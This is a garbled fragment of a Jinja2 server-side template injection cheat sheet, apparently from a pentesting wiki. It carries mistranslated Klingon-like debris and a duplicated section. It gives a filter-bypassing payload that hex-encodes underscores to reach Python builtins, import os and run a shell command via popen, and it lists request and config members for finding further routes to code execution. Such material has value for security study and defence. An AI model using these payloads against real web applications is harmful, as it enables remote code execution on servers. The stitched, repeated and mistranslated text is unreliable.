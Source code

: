 bImej **`{{`** **`.`** **`[`** **`]`** **`}}`** **`_`**
```python
{% raw %}
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
{% endraw %}
```
## Jinja Injection without **\<class 'object'>**

From the [**global objects**](jinja2-ssti.md#accessing-global-objects) there is another way to get to **RCE without using that class.**\
If you manage to get to any **function** from those globals objects, you will be able to access **`__globals__.__builtins__`** and from there the **RCE** is very **simple**.

You can **find functions** from the objects **`request`**, **`config`** and any **other** interesting **global object** you have access to with:

## Jinja Injection without **\<class 'object'>**

From the [**global objects**](jinja2-ssti.md#accessing-global-objects) there is another way to get to **RCE without using that class.**\
If you manage to get to any **function** from those globals objects, you will be able to access **`__globals__.__builtins__`** and from there the **RCE** is very **simple**.

You can **find functions** from the objects **`request`**, **`config`** and any **other** interesting **global object** you have access to with:
```bash
{{ request.__class__.__dict__ }}
- application
- _load_form_data
- on_json_loading_failed

{{ config.__class__.__dict__ }}
- __init__
- from_envvar
- from_pyfile
- from_object
- from_file
- from_json
- from_mapping
- get_namespace
- __repr__

# You can iterate through children objects to find more
```
### Translated Content

**DaH jImej:**

